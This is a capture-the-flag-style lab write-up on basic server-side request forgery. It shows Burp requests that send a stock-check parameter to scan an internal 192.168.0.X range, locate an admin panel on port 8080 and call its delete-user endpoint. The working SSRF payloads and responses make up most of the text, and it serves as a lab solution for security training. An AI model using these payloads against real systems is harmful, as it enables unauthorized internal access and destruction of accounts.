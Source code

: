 # Lab 2: Basic SSRF against another back-end system

- Vulnerability feature: stock check
- Goal: use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port `8080`, then use it to delete the user carlos.

### Analysis
- Open Burp Suite
```html
<!-- Request -->
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1

<!-- Response -->
502
```
- Decode `stockApi`
```html
<!-- Request -->
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1

stockApi=http://192.168.0.1:8080/

<!-- Response -->
"Missing parameter"
```

- Fuzzing IP address

![alt text](ssrf_lab_2.png)

![alt text](ssrf_lab_2-1.png)

![alt text](ssrf_lab_2-2.png)

- Send to repeater
```html
<!-- Request -->
stockApi=http://192.168.0.9:8080/

<!-- Response -->
"Not Found"
```

```html
<!-- Request -->
stockApi=http://192.168.0.9:8080/admin

<!-- Response -->
<a href="/admin">
    Admin panel
</a>

<a href="/http://192.168.0.9:8080/admin/delete?username=carlos">
    Delete
</a>
```

```html
<!-- Request -->
stockApi=http://192.168.0.9:8080/admin/delete?username=carlos
```
- Click `Follow redirection`
- Congratulations!